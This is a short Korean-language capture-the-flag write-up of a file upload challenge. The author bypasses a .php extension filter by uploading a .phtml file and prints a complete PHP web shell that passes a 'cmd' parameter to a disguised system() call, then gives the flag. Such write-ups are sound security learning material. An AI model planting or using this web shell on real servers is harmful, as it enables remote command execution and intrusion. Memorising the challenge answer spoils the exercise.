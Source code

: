 # File Upload
사이트에 접속하면 "flag is at flag.php" 라고 나온다.
Flag는 flag.php에 있나보다.

파일 업로드 취약점이 있는 거 같은데 웹쉘을 만들어서 풀어야 될 거 같다.

소스코드를 봤을 때 php 확장자를 필터링하므로 .phtml로 우회하였다.

```php
<html>
    <meta http-equiv="Content-Type" content="text/html; charset=EUC-KR" />
    <body>
        <form method="get">
            <input type="text" name="cmd" size="50">
            <input type="submit" value="Run">
        </form>
        <pre>
            <?php
            if($_GET['cmd'])
            {
                $sy = "sy"."stem";
                $result = $sy($_GET['cmd']);
                echo "{$result}";
            }
            ?>
        </pre>
    </body>
</html>
```

.phtml 파일로 작성하여 웹쉘을 만들고, flag.php를 불러왔다.

## Flag
flag{webshell_in_a_nutshell}